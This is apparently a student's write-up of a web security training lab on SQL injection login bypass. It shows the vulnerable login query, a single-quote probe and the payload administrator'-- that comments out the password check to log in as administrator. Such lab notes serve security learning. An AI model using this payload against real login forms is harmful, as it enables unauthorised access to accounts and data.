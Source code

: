 # Lab 2: SQL injection vulnerability allowing login bypass

# SQL injection vulnerability in the username selecting feature

SELECT * FROM users WHERE username = 'username' AND password = 'pass'

# End goal : access as the administrator

SELECT * FROM users WHERE username = 'username' AND password = 'pass'
this is the query performing for login functionality.

SELECT * FROM users WHERE username = ''' AND password = 'pass' --> internal server error 

SELECT * FROM users WHERE username = 'administrator'--' AND password = 'pass' -->payload = administrator'--

In above query we are directly communicating with the database for username as adminstrator and ' quote for end the username query and -- for the comment out the remaining query for authentication!!!




